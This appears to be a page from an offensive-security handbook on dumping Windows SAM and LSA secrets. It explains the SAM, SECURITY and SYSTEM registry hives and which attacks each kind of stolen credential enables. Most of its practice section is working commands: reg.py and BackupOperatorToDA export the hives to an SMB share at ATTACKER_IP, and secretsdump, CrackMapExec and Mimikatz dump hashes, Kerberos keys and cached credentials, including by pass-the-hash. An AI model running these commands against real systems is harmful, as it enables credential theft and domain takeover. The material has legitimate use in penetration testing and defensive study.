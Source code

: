 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                              |
| -------- | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                            |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$_SQSA_&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                        |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                            |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets/)             |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/)                                                                         |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets/)                                                                              |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                                         |

## Practice

### Exfiltration

{% tabs %}
{% tab title="UNIX-like" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s reg.py (Python) script can also be used to do the same operation remotely for a UNIX-like machine. For instance, this can be used to easily escalate from a [Backup Operator](../../domain-settings/builtin-groups.md) member to a Domain Admin by dumping a Domain Controller's secrets and use them for a [DCSync](dcsync.md).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
# start an SMB share
smbserver.py -smb2support "someshare" "./"

# save each hive manually
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\someshare'
reg.py "domain"/"user":"password"@"target" save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\someshare'

# backup all SAM, SYSTEM and SECURITY hives at once
reg.py "domain"/"user":"password"@"target" backup -o '\\ATTACKER_IP\someshare'
```
{% endtab %}

{% tab title="Live Windows" %}
When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](broken-reference) like demonstrated for an NTDS export.
{% endhint %}
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally with [`lsadump::sam`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/sam) and [`lsadump::secrets`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/secrets) to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
